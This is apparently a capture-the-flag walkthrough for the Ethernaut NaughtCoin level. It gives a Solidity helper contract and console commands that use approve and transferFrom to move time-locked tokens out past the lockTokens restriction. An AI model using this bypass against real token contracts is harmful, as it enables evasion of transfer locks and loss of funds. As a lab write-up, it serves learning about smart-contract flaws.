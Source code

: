 ```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.0.0/contracts/token/ERC20/IERC20.sol";

contract NautTransfer {
    IERC20 nautContract;

    constructor(address _nautAddress) public {
        nautContract = IERC20(_nautAddress);
    }

    function WithdrawAll(address _sender, uint256 amount) external {
        nautContract.transferFrom(_sender, address(this), amount);
    }

}
```
lockTokens modifier with timeLock of 365 days is used to prevent transfer by the minter i.e player playing the level. But there is another function approve which can be used to allocate the allowances to other address to let them transfer the allowable amount themselves from the transferFrom function. To know more about the ERC20 contract please read different articles or view the ERC20.sol from openzepplin.

1. So to transfer the amount to another address with timelock, first we can deploy the above NautTransfer contract with the NaughtCoin contract address as _nautAddress.

2. Approve the amount of INITIAL_SUPPLY or more in this case i used amount of 10000000 * 10**18 to approve to the NautTransfer contract address.

```
const nautTransferAddress = "0x............................."
await contract.approve(nautTransferAddress, toWei('10000000'));
```

3. Then call WithdrawAll function from Remix IDE or other setup you have with the player address i.e. address of us and amount as the total supply of the token the player has i.e. 1000000 * 10**18

4. Check the player balance and finally we transfer all the balance of the player to the contract successfully. Check the player balance to confirm.

```
await contract.balanceOf(player);
```



